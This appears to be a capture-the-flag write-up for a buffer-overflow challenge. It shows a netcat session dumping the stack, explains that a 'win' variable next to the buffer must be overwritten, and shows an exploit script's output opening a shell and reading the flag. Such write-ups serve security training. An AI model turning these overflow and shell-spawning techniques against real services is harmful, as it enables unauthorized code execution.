 # Arturo Brachetti - Points: 50 - (Solves: 396)

**Category**: Binary Exploitation

**Description**: Connect to server with nc challenge.acictf.com 28923. Exploit
the service. Read the contents of flag.txt on the server. You can find the
source code here

**Hints**:
- Have you heard of buffer overflows?
- Change the value of win to get a shell

## Solution

Connecting to the provided service, it asks for input and dumps the stack. We
can see that our input is copied into a stack buffer, and we need to set `win`
to a special value to solve the challenge.

```
$ nc challenge.acictf.com 28923
You need to set win to 38684467
Enter your string: aaaaaaaaaaaaaaaa
0xffda023c: 08048705 (esp)
0xffda0238: ffda0298
0xffda023c: 08048705
0xffda0240: ffda0250
0xffda0244: 00000017
0xffda0248: ffda02a0
0xffda024c: f762f6bd
0xffda0250: 61616161
0xffda0254: 61616161
0xffda0258: 61616161
0xffda025c: 61616161
0xffda0260: ffda0300
0xffda0264: 0000047e
0xffda0268: 0000047e
0xffda026c: f7682330
0xffda0270: f77ab7eb
0xffda0274: 00000000
0xffda0278: f7782000
0xffda027c: ffda0314
0xffda0280: ffda0328
0xffda0284: f77b1ff0
0xffda0288: 00000001
0xffda028c: f7682300
0xffda0290: 0000047e
0xffda0294: f7682306
0xffda0298: ffda0328
0xffda029c: ffda0328 (ebp)
0xffda02a0: 08048815 (ret)
0xffda02a4: 00000000 (win)
win value (hex)  = 0
Sorry, you lose.
```

A quick check of the provided [source code](arturo.c) shows that if the `win`
parameter is set to 946357351, the program will drop us into a shell. A short
pwntools [script](solve.py) will yield the flag.`

```
$ ./solve.py
[+] Opening connection to challenge.acictf.com on port 28923: Done
[*] Switching to interactive mode
$ id
uid=1150(arturo-brachetti_2) gid=1151(arturo-brachetti_2)
groups=1151(arturo-brachetti_2)
$ ls -l
total 16
-rwxr-sr-x 1 hacksports arturo-brachetti_2 7808 Nov 30 15:33 arturo
-r--r----- 1 hacksports arturo-brachetti_2   54 Nov 30 15:33 flag.txt
-rwxr-sr-x 1 hacksports arturo-brachetti_2  121 Nov 30 15:33 xinet_startup.sh
$ cat flag.txt
ACI{remote_code_execution_is_best_execution_7ced1003}
```
